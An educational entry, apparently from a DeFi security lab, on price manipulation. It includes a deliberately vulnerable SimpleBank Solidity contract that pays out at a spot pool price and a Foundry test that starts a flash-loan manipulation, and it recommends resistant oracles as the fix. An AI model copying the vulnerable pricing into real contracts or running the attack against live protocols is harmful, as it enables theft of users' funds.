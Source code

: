 # Price manipulation

**Name:** Price manipulation

**Description:** Incorrect price calculation over balanceOf, getReverse may refer to a situation where the price of a token or asset is not accurately calculated based on the balanceOf function.

**Mitigation:**

Use a manipulation resistant oracle, chainlink, TWAP, etc.

**REF:**

https://twitter.com/1nf0s3cpt/status/1673948842738487296

https://github.com/SunWeb3Sec/DeFiHackLabs/tree/main/past/2022#20221012-atk---flashloan-manipulate-price

https://github.com/SunWeb3Sec/DeFiHackLabs/tree/main/past/2022#20220807-egd-finance---flashloans--price-manipulation

https://github.com/SunWeb3Sec/DeFiHackLabs/tree/main/past/2022#20220428-deus-dao---flashloan--price-oracle-manipulation

**SimpleBank Contract:**

```jsx
contract SimpleBank {
    IERC20 public token; //USDA
    SimplePool public pool;
    IERC20 public payoutToken; //USDb

    constructor(address _token, address _pool, address _payoutToken) {
        token = IERC20(_token);
        pool = SimplePool(_pool);
        payoutToken = IERC20(_payoutToken);
    }

    function exchange(uint256 amount) public {
        require(
            token.transferFrom(msg.sender, address(this), amount),
            "Transfer failed"
        );
        uint256 price = pool.getPrice();
        require(price > 0, "Price cannot be zero");
        uint256 tokensToReceive = (amount * price) / (10 ** 18);
        require(
            payoutToken.transfer(msg.sender, tokensToReceive),
            "Payout transfer failed"
        );
    }
```

***\*How to Test:\****

forge test --contracts src/test/**Price_manipulation.sol** -vvvv

```jsx
// Function to test a potential price manipulation vulnerability
    function testPrice_Manipulation() public {
        // Transfers 9000 ether (using ether as a denomination here but it actually refers to the USDb token's smallest unit) to the SimpleBankContract from the USDbContract
        USDbContract.transfer(address(SimpleBankContract), 9000 ether);
        
        // Transfers 1000 ether worth of USDa tokens to the SimplePoolContract from the USDaContract
        USDaContract.transfer(address(SimplePoolContract), 1000 ether);
        
        // Transfers 1000 ether worth of USDb tokens to the SimplePoolContract from the USDbContract
        USDbContract.transfer(address(SimplePoolContract), 1000 ether);
        
        // Retrieves the current price of USDa in terms of USDb from the SimplePoolContract
        // Initially, the price is assumed to be 1 USDa : 1 USDb
        SimplePoolContract.getPrice(); // 1 USDa : 1 USDb

        // Logs the assumption that the price of USDa is 1 to 1 USDb because the pool has 1000 of each
        console.log(
            "There are 1000 USDa and USDb in the pool, so the price of USDa is 1 to 1 USDb."
        );
        
        // Emits a log with the current USDa conversion rate
        emit log_named_decimal_uint(
            "Current USDa convert rate",
            SimplePoolContract.getPrice(),
            18
        );
        
        // Logs the start of the price manipulation attempt
        console.log("Start price manipulation");
        
        // Logs a message about borrowing 500 USDb via a flash loan
        console.log("Borrow 500 USBa over floashloan");
        
        // Attempts to manipulate the price by using a flash loan to borrow 500 USDb
        // This could potentially distort the balance of USDa and USDb in the SimplePoolContract, affecting the price
        SimplePoolContract.flashLoan(500 ether, address(this), "0x0");
    }
```

**Red box: price manipulated.**

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F6e72f9da-a310-4e12-a4df-724cfe5a4cd0%2FUntitled.png?table=block&id=4982af62-42fa-4aef-ac03-b62eb5514bc9&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)